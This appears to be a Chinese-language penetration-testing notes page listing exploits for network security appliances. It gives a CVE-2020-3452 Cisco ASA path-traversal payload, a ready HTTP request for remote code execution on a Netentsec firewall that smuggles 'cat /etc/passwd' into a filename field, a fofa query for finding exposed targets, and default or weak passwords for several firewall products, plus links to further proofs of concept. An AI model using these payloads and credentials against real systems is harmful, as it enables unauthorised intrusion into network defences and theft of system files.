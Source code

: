 **相关文章**
- [IDS逃避技术和对策](https://www.oschina.net/question/12_6140)
- [网络层绕过IDS/IPS的一些探索](https://security.tencent.com/index.php/blog/msg/147)

**绿盟 UTS 综合威胁探针**
- **管理员任意登录**
    - POC | Payload | exp
        - [绿盟UTS综合威胁探针管理员任意登录](https://www.hedysx.com/2612.html)
        - [【干货】绿盟UTS综合威胁探针管理员任意登录](https://www.hackbug.net/archives/112.html)

---

### 防火墙

**Cisco ASA**
- **CVE-2018-0296 Cisco ASA Directory Traversal**
    - POC | Payload | exp
        - [yassineaboukir/CVE-2018-0296](https://github.com/yassineaboukir/CVE-2018-0296)

- **CVE-2020-3452**
    - POC | Payload | exp
        ```
        /+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
        ```

**网康下一代防火墙**

>  fofa: app="网康科技-下一代防火墙"

- **网康下一代防火墙 RCE**
    - POC | Payload | exp
        ```
        POST /directdata/direct/router HTTP/1.1

        {"action":"SSLVPN_Resource","method":"deleteImage","data":[{"data":["/var/www/html/d.txt;cat /etc/passwd >/var/www/html/test_test.txt"]}],"type":"rpc","tid":17,"f8839p7rqtj":"="}
        ```
        ```
        访问：https://x.x.x.x/test_test.txt
        ```

**启明星辰 天清汉马USG防火墙**
- **弱口令**
    ```
    账号：useradmin
    密码：venus.user
    ```

- **逻辑缺陷漏洞**
    ```
    登陆后,后台可直接修改任意用户权限
    ```

**佑友防火墙**
- **默认账号密码**
    ```
    User: admin
    Pass: hicomadmin
    ```
